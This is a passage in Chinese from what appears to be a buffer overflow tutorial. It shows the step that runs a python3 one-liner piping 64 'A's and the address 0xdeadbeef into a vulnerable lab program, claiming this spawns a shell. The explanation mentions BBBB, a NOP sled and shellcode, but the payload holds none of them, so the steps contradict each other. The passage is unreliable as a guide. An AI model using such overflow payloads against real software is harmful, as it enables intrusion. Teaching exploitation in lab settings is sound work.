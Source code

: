 - 缓冲区用A字符填充，直到达到缓冲区的长度。  
  
- BBBB用 NOP 滑板的地址覆盖 EIP，从而将执行重定向到 shellcode。  
  
## 第 6 步：利用程序  
  
使用你的利用载荷运行程序：  
```
python3 -c 'print("A" * 64 + "\xef\xbe\xad\xde")' | ./vuln_program

```  
  
如果一切设置正确，你应该会看到程序已被成功利用，并生成一个 shell。  
  
